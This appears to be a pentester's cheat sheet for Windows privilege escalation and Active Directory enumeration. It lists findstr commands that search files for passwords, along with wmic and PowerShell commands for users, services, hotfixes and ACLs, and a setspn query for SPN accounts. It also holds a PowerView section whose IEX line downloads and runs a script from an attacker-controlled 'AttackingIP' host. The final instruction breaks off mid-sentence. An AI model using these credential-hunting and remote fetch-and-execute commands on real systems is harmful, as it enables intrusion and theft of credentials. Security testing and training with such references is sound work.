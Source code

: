 _Password Hunting_

findstr /si password \*.txt \*.ini \*.config \*.php findstr /si pass \*.txt \*.ini \*.config \*.php findstr /si password= \*.txt \*.ini \*.config \*.php \*.pl \*.xml findstr /si password \*.txt \*.ini \*.config \*.php \*.pl \*.xml \*.xls \*.xlsx \*.csv \*.doc \*.docx findstr /si pass \*.txt \*.ini \*.config \*.php \*.pl \*.xml \*.xls \*.xlsx \*.csv \*.doc \*.docx

_Vulnerable Software_

* wmic qfe get Caption,Description,HotFixID,InstalledOn
* wmic product get name,version,vendor
* wmic service list brief | findstr "Running" - for more info on the listed services; use sc qc servicename

_Offensive Powershell_

https://gitbook.brainyou.stream/powershell/offensive-powershell

https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70

### Powershell commands to run

* Find files `Get-ChildItem -Path C:/ -Recurse -Hidden -ErrorAction SilentlyContinue -Include *example.txt*`
* users `Get-LocalUser`
* Users with no password required `Get-LocalUser | Where-Object -Property PasswordRequired -Match false`
* Groups `Get-LocalGroup`
* Hotfixes `Get-Hotfix`
* scheduled tasks `Get-ScheduledTask`
* get access control lists `get-acl directory`
* `setspn -T domain -Q */*` -- extract all accounts in the SPN. enter domain without tld
* list running services `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
* Get-Service | Where-Object {$\_.Status -eq "Running"} -- look for unusual services or exploitable
  * windowscheduler
  * check `C:\Program Files (x86)\SystemScheduler\Events` log files. for any running events. this is similar to linux cronjobs.

### PowerView Commands

Load PowerView.ps1 in memory

```
IEX (New-Object Net.Webclient).downloadstring("http://AttackingIP/PowerView.ps1")
```

Enumerate All but the most interesting group using

```
get-ngroup
```

```
get-objectacl -SamAccountName "Interesting Group" -ResolveGUIDs
```

Depending on the user or group found in "IdentityReference" from the output `get-objectacl -SamAccountName "Interesting Group" -ResolveGUIDs` run.
